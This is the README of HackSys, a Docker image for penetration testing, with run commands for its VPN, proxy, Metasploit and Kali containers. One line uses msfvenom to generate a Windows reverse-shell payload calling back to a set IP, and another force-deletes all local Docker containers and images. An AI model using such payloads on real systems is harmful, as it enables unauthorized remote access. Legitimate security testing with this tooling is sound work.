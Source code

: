 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* 3.59GB
* Zsh
* Lightweight with several security tools installed:
  * nmap
  * sqlmap
  * impacket
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
* Development tools installed:
  * Python
  * Go
  * Java
  * Ruby
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Replace `antfie.ovpn` with your openVPN configuration file and run the main VPN container with this:

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
